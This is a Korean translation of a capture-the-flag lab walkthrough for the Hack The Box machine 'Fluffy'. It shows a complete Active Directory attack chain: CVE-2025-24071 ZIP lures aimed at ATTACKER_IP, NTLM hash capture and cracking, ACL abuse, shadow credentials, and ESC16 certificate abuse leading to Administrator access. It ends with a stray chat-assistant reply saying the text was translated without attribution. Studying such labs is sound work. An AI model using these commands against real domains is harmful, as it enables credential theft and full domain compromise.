





**작성일:** 2025년 9월 16일
**작성자:** kavigihan
**머신 제작자:** ruycr4ft & kavigihan
**난이도:** 쉬움 (Easy)

### 개요 (Synopsis)
Fluffy는 권한이 낮은 사용자의 자격 증명이 제공되는 '가정된 침해(assumed breach)' 시나리오를 바탕으로 설계된 쉬운 난이도의 Windows 머신입니다. CVE-2025-24071을 악용하면, 또 다른 권한이 낮은 사용자의 자격 증명을 얻을 수 있습니다. 추가적인 열거를 통해 `winrm_svc` 및 `ca_svc` 계정에 대한 ACL(액세스 제어 목록)이 존재함을 밝혀냅니다. 그런 다음 WinRM을 사용하여 `winrm_svc` 계정으로 타겟에 로그인할 수 있습니다. 관리자(Administrator) 계정에 대한 접근 권한을 얻으려면 `ca_svc` 계정을 사용하여 Active Directory 인증서 서비스(Active Directory Certificate service, Esc16)를 악용해야 합니다.

### 요구 기술 (Skills Required)
* 기본 Active Directory 도메인 열거
* 기본 Active Directory 서비스 열거

### 습득 기술 (Skills Learned)
* Bloodhound를 이용한 Active Directory 열거
* Certipy를 이용한 Active Directory 열거
* Active Directory ACL 및 DACL 악용

---

## 열거 (Enumeration)

nmap 스캔으로 열거를 시작해 보겠습니다.

```bash
$ ports=$(nmap-open TARGET_IP grep open cut -d-f 1 cut -d '/' -f 1 paste -sd,);
 nmap TARGET_IP -p $ports -SV-SC-Pn--disable-arp-ping
<SNIP>
53/tcp   open domain       Simple DNS Plus
80/tcp   open http         Microsoft IIS httpd 10.0
<SNIP>
88/tcp   open kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-19 19:08:572)
135/tcp  open msrpc        Microsoft Windows RPC
139/tcp  open netbios-ssn  Microsoft Windows netbios-ssn
<SNIP>
443/tcp  open ssl/http     Microsoft IIS httpd 10.0
<SNIP>
445/tcp  open microsoft-ds?
464/tcp  open kpasswd5?
593/tcp  open ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-
<SNIP>
3268/tcp open ldap         Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-
|_ssl-date: 2025-05-19T19:10:29+00:00; +14m37s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
<SNIP>
3269/tcp open ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-
<SNIP>
5985/tcp open http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

SMB(포트 445), LDAP(포트 389), Kerberos(포트 88)가 실행 중인 것을 확인할 수 있습니다. 따라서 이것이 도메인 컨트롤러(Domain Controller)임을 알 수 있습니다. nmap 스캔 결과를 보면 도메인 이름은 `fluffy.htb`이고 도메인 컨트롤러의 DNS 이름은 `DC01.fluffy.htb`입니다. 그러므로 이를 우리의 `/etc/hosts` 파일에 추가해야 합니다.

```bash
$ echo "TARGET_IP fluffy.htb dc01.fluffy.htb" | sudo tee -a /etc/hosts
```

제공된 자격 증명 `j.fleischman: J0elTHEM4n1990!`를 사용하여 SMB 서비스를 열거해 봅시다.

```bash
$ crackmapexec smb TARGET_IP -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
<SNIP>
SMB         TARGET_IP     445    DC01             Share           Permissions     Remark
SMB         TARGET_IP     445    DC01             -----           -----------     ------
<SNIP>
SMB         TARGET_IP     445    DC01             IT              READ, WRITE
<SNIP>
```

해당 사용자에게 READ 및 WRITE 권한이 있는 `IT`라는 SMB 공유 폴더가 발견되었습니다. 공유 폴더에 접속하여 추가로 열거해 보겠습니다.

```bash
$ smbclient '//TARGET_IP/IT' -U 'j.fleischman%J0elTHEM4n1990!'
Try "help" to get a list of possible commands.
smb: \> ls
<SNIP>
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025
```

공유 폴더에 연결하니 `Upgrade_Notice.pdf`라는 PDF 파일이 보입니다. 추가 조사를 위해 다운로드하겠습니다.

```bash
smb: \> get Upgrade_Notice.pdf
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (150.5 KiloBytes/sec) (average 150.5 KiloBytes/sec)
```

다운로드한 파일을 확인해 보면, 이는 IT 부서에서 시스템 업그레이드를 위한 시간대를 예약하라는 공지 사항임을 알 수 있습니다.



```text
FLUFFY
Patch Announcement: Mandatory Timeslot Booking for Critical Updates
Audience: IT Department
Multiple high-impact vulnerabilities have been publicly disclosed. All administrators are instructed to schedule a maintenance timeslot to upgrade all the systems in accordance with internal security policy.
Upgrades must be completed within the defined change window to reduce the risk of exploitation and maintain compliance with patching requirements.
```

공지 사항 아래쪽에는 최근 발견된 몇 가지 취약점이 나열된 표가 있습니다. 그중 하나가 CVE-2025-24071로, 이는 Windows 파일 탐색기 스푸핑(Spoofing) 취약점입니다. 여기서 설명된 대로 조작된 `.library-ms` 파일이 포함된 ZIP 파일의 압축을 풀 때 공격자가 사용자의 NTLM 해시를 탈취할 수 있게 해줍니다.



**Recent Vulnerabilities**
| CVE ID | Severity |
| :--- | :--- |
| CVE-2025-24996 | Critical |
| CVE-2025-24071 | Critical |
| CVE-2025-46785 | High |
| CVE-2025-29968 | High |
| CVE-2025-21193 | Medium |
| CVE-2025-3445 | Low |

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24071
https://nsfocusglobal.com/windows-file-explorer-spoofing-vulnerability-cve-2025-24071/

쓰기 가능한 SMB 공유 폴더가 있으므로 이 취약점을 악용해 봅시다.
먼저 POC를 사용하여 페이로드가 포함된 악성 ZIP 아카이브를 생성해야 합니다.

```bash
$ git clone https://github.com/0x6rss/CVE-2025-24071_PoC.git
$ cd CVE-2025-24071_POC
$ python3 poc.py
Enter your file name: kavi
Enter IP (EX: ATTACKER_IP): ATTACKER_IP
completed
```

그러면 `exploit.zip` 파일이 생성되는데, 이것을 쓰기 가능한 SMB 공유 폴더에 업로드해야 합니다.

```bash
smb: \> put exploit.zip
putting file exploit.zip as \exploit.zip (0.7 kb/s) (average 0.7 kb/s)
smb: \> ls
<SNIP>
  exploit.zip                         A      317  Mon May 19 15:34:02 2025
<SNIP>
```

이제 NTLM 인증 요청을 수신하기 위해 `responder` 도구를 시작해야 합니다.

```bash
$ sudo responder -I tun0
<SNIP>
[SMB] NTLMv2-SSP Client   : TARGET_IP
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:ca207d23db767349:0639C4E687A11548A086CC089A56386B:0101000000000000803CFD9320C7DC011C83F4D973ADB0EA0000000002000800580034004500460001001E00570049004E002D0051004D0059003200490046004F00410036004800390004003400570049004E002D0051004D0059003200490046004F0041003600480039002E0058003400450046002E004C004F00430041004C000300140058003400450046002E004C004F00430041004C000500140058003400450046002E004C004F00430041004C0007000800803CFD9320C7DC0106000400020000000800300030000000000000000100000000200000F1C1D8EE0DDA51465DD2F756E4F1CD85B1501883141C261D06594A299AD8490B0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390036000000000000000000
```

몇 초 후 `p.agila` 사용자로부터 NTLM 인증 요청을 수신합니다. 이 해시를 파일에 저장하고 hashcat에 전달해 봅시다.

```bash
$ cat hash
p.agila::FLUFFY:208d2c2f1ea8dab7:EDA98E265A7A054A8EF2812F9FBB8FE6...<SNIP>...7000000000000000000

$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
<SNIP>
P.AGILA::FLUFFY:208d2c2f1ea8dab7:eda98e265a7a054a8ef2812f9fbb8fe6:...<SNIP>...000000000000:prometheusx-303
```

hashcat이 평문 비밀번호 `prometheusx-303`을 성공적으로 알아냈습니다.

---

## 초기 침투 (Foothold)

이 자격 증명을 사용하여 Bloodhound로 Active Directory 환경을 열거해야 합니다.

```bash
$ bloodhound-python -d fluffy.htb -u 'p.agila' -p 'prometheusx-303' -dc dc01.fluffy.htb -c all -ns TARGET_IP
<SNIP>
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 39S
```

로컬에서 `neo4j` 서비스를 시작한 다음 데이터를 Bloodhound에 업로드해야 합니다.

```bash
$ sudo neo4j console
```

Bloodhound 검색창에서 `p.agila`를 검색하고, 해당 사용자의 자격 증명이 있으므로 해당 사용자를 소유함(owned)으로 표시해 봅시다.




이 출력 결과에서 몇 가지 주목할 점이 있습니다.
1. `p.agila` 사용자는 `service accounts` 그룹에 대해 GenericAll ACL을 가진 `service account managers` 그룹의 일원입니다.
2. `service accounts` 그룹은 `cert publishers` 그룹의 일원인 `ca_svc` 사용자에 대해 GenericWrite ACL을 가집니다.

위와 같은 방법으로 Transitive Object Control을 확인하여 `service accounts`를 추가로 열거해 보면, 이 그룹이 `ca_svc`뿐만 아니라 `winrm_svc` 및 `ldap_svc` 두 개의 다른 계정에 대해서도 GenericWrite 권한을 가지고 있음이 밝혀집니다.



또한 `winrm_svc` 사용자는 WinRM을 통해 타겟에 연결할 수 있도록 허용하는 Remote Management Users 그룹의 일원이라는 점에 유의해야 합니다.
이를 악용하기 위해 다음과 같은 공격 경로를 사용해야 합니다.

* 먼저, GenericAll ACL을 사용하여 우리 자신(`p.agila`)을 `service accounts` 그룹에 추가해야 합니다. 이를 위해 `bloodyAD`를 사용해 보겠습니다.

```bash
$ bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host TARGET_IP add groupMember 'service accounts' p.agila
[+] p.agila added to service accounts
```

```
# VM 시간 동기화 서비스 강제 중단
sudo systemctl stop open-vm-tools
sudo systemctl stop virtualbox-guest-utils
sudo systemctl stop systemd-timesyncd

# NTP 자동 동기화 비활성화
sudo timedatectl set-ntp 0

# 원격 서버 시간 동기화
sudo rdate $IP
sudo ntpdate TARGET_IP
```

* 그런 다음, `service accounts` 그룹의 멤버로서 GenericWrite ACL을 사용하여 `winrm_svc` 및 `ca_svc` 사용자에게 섀도우 자격 증명(shadow credentials)을 추가해 그들의 RC4 비밀번호 해시를 검색해야 합니다. 이를 위해 `certipy`를 사용할 수 있습니다.

```bash
$ certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Targeting user 'ca_svc'
<SNIP>
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8

$ certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Targeting user 'winrm_svc'
<SNIP>
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```

(만약 KRB_AP_ERR_SKEW 에러가 발생한다면, `sudo ntpdate dc01.fluffy.htb` 명령을 통해 타겟 도메인 컨트롤러와 시간을 동기화하세요.)

`winrm_svc` 사용자의 RC4 해시가 있으면, WinRM을 통해 타겟에 접근할 수 있어야 합니다. 따라서 `evil-winrm`을 사용하여 대화형 쉘(interactive shell)을 얻어봅시다.

```bash
$ evil-winrm -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767 -i dc01.fluffy.htb
<SNIP>
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami
fluffy\winrm_svc
```

사용자 플래그는 `C:\Users\winrm_svc\Desktop\user.txt`에서 찾을 수 있습니다.

---

## 권한 상승 (Privilege Escalation)

Active Directory 환경에 대한 추가적인 열거가 수행되어야 합니다. 타겟에서 ADCS(Active Directory Certificate Service)가 실행 중인 것을 발견할 수 있어야 합니다. `adcs` 모듈을 사용하여 `crackmapexec`로 이를 확인해 봅시다.

```bash
$ nxc ldap TARGET_IP -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767 -M adcs         
LDAP        TARGET_IP   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        TARGET_IP   389    DC01             [+] fluffy.htb\winrm_svc:33bd09dcd697600edf6b3a7af4875767
ADCS        TARGET_IP   389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        TARGET_IP   389    DC01             Found PKI Enrollment Server: DC01.fluffy.htb
ADCS        TARGET_IP   389    DC01             Found CN: fluffy-DC01-CA
```

도메인 컨트롤러에 ADCS가 설치되어 있다는 것을 알았으므로, `certipy`를 사용하여 인증 기관(Certificate Authority)에서 취약한 템플릿을 찾을 수 있습니다. 이를 위해서는 앞서 추출한 `ca_svc` 사용자의 RC4 해시를 사용해야 합니다.

```bash
$ certipy-ad find -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip TARGET_IP -vulnerable -enabled -stdout
<SNIP>
[!] Vulnerabilities
  ESC16                                 : Security Extension is disabled.
[*] Remarks
  ESC16                                 : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

`certipy` 도구의 출력을 분석하여 이 설치 환경이 ESC16 공격에 취약하다는 것을 파악해야 합니다. 이 공격은 CA가 전역적으로 `SZOID_NTDS_CA_SECURITY_EXT` 보안 확장(Security extension) 포함을 비활성화하도록 설정된 잘못된 구성을 악용합니다.

이를 악용하기 위해 먼저 `ca_svc` 사용자의 UPN(User Principal Name)을 `administrator`로 업데이트해야 합니다.

```bash
$ certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'administrator'
<SNIP>
[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

그런 다음, `ca_svc` 사용자로 인증서를 요청해야 합니다. `ca_svc` 사용자의 UPN이 `administrator`로 업데이트되었으므로, 결과적으로 생성되는 인증서를 통해 우리는 `administrator` 사용자로 인증할 수 있게 됩니다. 여기서는 사용자 템플릿(CA의 기본 템플릿)이 사용된다는 점에 유의하세요.

```bash
$ certipy-ad req -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 'TARGET_IP' -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
<SNIP>
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

이 과정은 Administrator 사용자의 인증서를 `administrator.pfx`에 저장합니다. 이 인증서를 사용하기 전에, 변경된 `ca_svc` 사용자의 UPN을 올바른 것으로 다시 업데이트해야 합니다.

```bash
$ certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'ca_svc@fluffy.htb'
<SNIP>
[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```

마지막으로, `administrator.pfx` 인증서를 사용하여 Administrator 사용자의 RC4 해시를 얻어봅시다.

```bash
$ certipy-ad auth -pfx administrator.pfx -domain 'fluffy.htb' -dc-ip TARGET_IP
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

이 RC4 해시를 사용하면 WinRM을 통해 Administrator 사용자로서 타겟에 접근할 수 있습니다.

```bash
$ evil-winrm -u 'Administrator' -H 8da83a3fa618b6e3a00e93f676c92a6e -i dc01.fluffy.htb
<SNIP>
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
fluffy\Administrator
```

루트 플래그는 `C:\Users\Administrator\Desktop\root.txt`에서 찾을 수 있습니다.

---
원하는 대로 출처 표기 없이 원본 형태를 살려서 번역했어! 추가로 도움이 필요한 내용이 있으면 알려줘.
